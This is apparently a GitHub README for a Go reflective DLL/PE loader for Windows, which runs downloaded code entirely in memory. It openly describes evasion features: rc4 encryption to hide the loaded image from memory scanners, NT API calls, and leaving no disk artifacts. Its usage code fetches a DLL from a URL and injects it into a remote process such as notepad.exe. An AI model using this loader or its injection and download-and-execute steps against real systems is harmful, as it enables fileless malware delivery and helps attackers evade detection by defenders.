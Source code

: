 # meltloader

a reflective dll/pe loader for windows written in go that performs pe loading entirely in memory with automatic memory management and encryption features.

## demo
>now supports PEs
![melt](https://github.com/user-attachments/assets/819639da-32ca-4393-8945-0e4c0b8145d6)

## overview

meltload implements reflective dll/pe loading using windows nt api calls to allocate, write, and execute pe files without touching disk. the loader handles pe parsing, relocation processing, import resolution, and memory protection changes while providing tracking and cleanup capabilities. this should allow you to chain an arbitrary amount of DLLs that perform various operations in a modular and secure manner :3

the loader uses windows' provided SystemFunction032 rc4 encryption for evasion purposes. downloaded dlls are always encrypted in memory with an optional sleep period before decryption and execution, and after execution the mapped dll image gets encrypted in place using a randomly generated key. this makes the loaded dll unreadable to memory analysis tools while maintaining proper cleanup functionality.

## https requirement

LoadDLLFromURL requires https connections as winhttp in all my implementations failed with non https and i cba to look at microsoft docs any longer for function signature and type converting windows stuff to go.

## go dll compatibility

also works with go compiled dlls, see go-dll-src/ for reference 

## api usage

```go
// load dll from file
mapping, err := pe.LoadDLLFromFile("path/to/dll.dll", "ExportedFunction")

// load dll from url with optional sleep before encrypt/decrypt finishes
mapping, err := pe.LoadDLLFromURL("https://example.com/dll.dll", "ExportedFunction", 5)

// load dll from url without sleep before encrypt/decrypt finishes
mapping, err := pe.LoadDLLFromURL("https://example.com/dll.dll", "ExportedFunction")

pid, pHandle, err := pe.FindTargetProcess("notepad.exe")
if err != nil {
	log.Printf("[main] failed to find process: %v", err)
	fmt.Println("failed to find process", err)
	return
}
buff, err := net.DownloadToMemory("https://url.com/file.dll")
if err != nil {
	log.Printf("[main] failed to download DLL: %v", err)
	fmt.Println("failed to download", err)
	return
}
_, err = pe.LoadDLLRemote(pHandle, buff, "ExportedFunction")
if err != nil {
	log.Printf("[main] LoadDLLRemote failed: %v", err)
	fmt.Println("failed to load", err)
	return
}
log.Printf("[main] LoadDLLRemote succeeded")

// check currently mapped dlls
baseAddrs, sizes, count := pe.GetMap()
fmt.Printf("currently have %d PEs mapped:\n", count)
for i := 0; i < count; i++ {
	fmt.Printf("PE %d: Base=0x%X, Size=%d bytes\n", i, baseAddrs[i], sizes[i])
}

// cleanup/unmap dll from memory
err = pe.Melt(mapping)

// cleanup/ummap exe from memory 
err = pe.MeltPE(mapping)
```

## function identifier interface

the functionIdentifier parameter accepts multiple types:

- string: function name for named exports ("MessageBoxA")
- int: ordinal number for ordinal exports 
- string containing number: automatically parsed as ordinal ("123")

if no specific function is found, the loader will execute the dll's entry point with DLL_PROCESS_ATTACH.

## technical implementation

the loader performs standard reflective dll loading steps:

pe validation checks dos and nt headers for proper signatures and offsets. memory allocation uses NtAllocateVirtualMemory attempting preferred base address first, falling back to system-chosen addresses. section mapping copies pe headers and each section to their virtual addresses using NtWriteVirtualMemory.

relocation processing handles base address changes by parsing the relocation table and updating all absolute addresses. only IMAGE_REL_BASED_DIR64 relocations are processed for 64-bit compatibility. import resolution walks the import table, loads required libraries with LoadLibraryW, and resolves function addresses with GetProcAddress.

memory protection changes from PAGE_READWRITE to PAGE_EXECUTE_READ using NtProtectVirtualMemory after dll loading completes. export resolution searches the export table by name or ordinal to find the target function.

the encryption system generates a random 32-byte rc4 key during loading. a deferred function encrypts the mapped dll memory in place after execution completes. the encryption key gets securely wiped from memory after use.

memory tracking maintains a global registry of loaded dlls protected by read-write mutex. each mapping stores base address and size information. the Melt function uses VirtualFree with MEM_RELEASE flag and automatically removes entries from the tracking registry. this is opsec iffy, but DLL 0: Base=0x19065C10000, Size=32768 bytes is all that shows up to memory scanners, can also optionally be encrypted when unused if you want to adapt this further

## evasion features

the loader includes several evasion mechanisms. downloaded dlls are always encrypted in memory with an optional time period before decryption and execution. mapped dlls get encrypted in place after execution using rc4 with random keys. memory operations use nt api calls instead of higher level win32 apis. all allocations and operations happen entirely in memory without disk artifacts. the tracking system allows complete cleanup of loaded dlls, removing them from our process memory.
